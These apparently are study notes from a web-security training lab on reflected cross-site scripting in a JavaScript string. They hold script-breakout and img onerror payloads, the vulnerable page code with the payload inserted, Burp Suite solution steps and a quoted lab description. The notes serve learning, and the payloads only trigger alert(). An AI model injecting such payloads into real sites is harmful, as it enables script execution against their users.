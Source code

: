 Other way

```
</script><img src=1 onerror=alert()>
```

```html
<script>var searchTerms = '</script>
<img src="1" onerror="alert()">
';document.write('
<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">
');
```

<div class="component-solution is-expandable expanded">
            <h5>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h5>
            <div>
                <ol>
                    <li>
                        Submit a random alphanumeric string in the search box, then use Burp Suite to intercept the search request and send it to Burp Repeater.
                    </li>
                    <li>
                        Observe that the random string has been reflected inside a JavaScript string.
                    </li>
                    <li>
                        Try sending the payload <code>test'payload</code> and observe that your single quote gets backslash-escaped, preventing you from breaking out of the string.
                    </li>
                    <li>
                        <p>
                            Replace your input with the following payload to break out of the script block and inject a new script:
                        </p>
                        <code class="code-scrollable">&lt;/script&gt;&lt;script&gt;alert(1)&lt;/script&gt;</code>
                    </li>
                    <li>
                        Verify the technique worked by right clicking, selecting "Copy URL", and pasting the URL in the browser. When you load the page it should trigger an alert.
                    </li>
                </ol>
            </div>
        </div>


##### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

> This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.
>
> To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function. 
